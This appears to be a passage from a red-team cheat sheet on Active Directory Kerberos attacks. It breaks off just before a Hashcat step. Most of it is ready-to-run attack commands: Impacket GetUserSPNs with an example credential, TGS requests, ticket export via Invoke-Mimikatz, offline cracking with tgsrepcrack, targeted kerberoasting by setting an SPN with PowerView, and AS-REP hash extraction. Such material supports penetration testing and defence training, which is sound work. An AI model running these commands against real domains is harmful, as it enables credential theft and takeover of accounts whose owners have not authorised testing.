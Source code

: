 ### Using Impacket

Service Principal Names can be also discovered from non-joined domain systems with the python version of **GetUserSPNs** which is part of impacket. **However valid domain credentials are required for communication with the Active Directory as token based authentication cannot be used**.

```
./GetUserSPNs.py -dc-ip 192.168.56.208 megabank.local/client2:"password.321"
```

![](<../../../.gitbook/assets/image (182).png>)

### Manual

```
# Request TGS for kerberoastable account (SPN)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.targetdomain.com"

# Dump TGS to disk
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack with TGSRepCrack
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\mssqlsvc.kirbi
```

**Targeted kerberoasting by setting SPN -**  We need have ACL write permissions to set UserAccountControl flags for the target user, see above for identification of interesting ACLs. Using PowerView:

```
Set-DomainObject -Identity TargetUser -Set @{serviceprincipalname='any/thing'}
```

### AS-REP roasting <a href="#as-rep-roasting" id="as-rep-roasting"></a>

Get the hash for a roastable user (see above for hunting). Using `ASREPRoast.ps1`:

```
Get-ASREPHash -UserName TargetUser
```

Crack the hash with Hashcat:
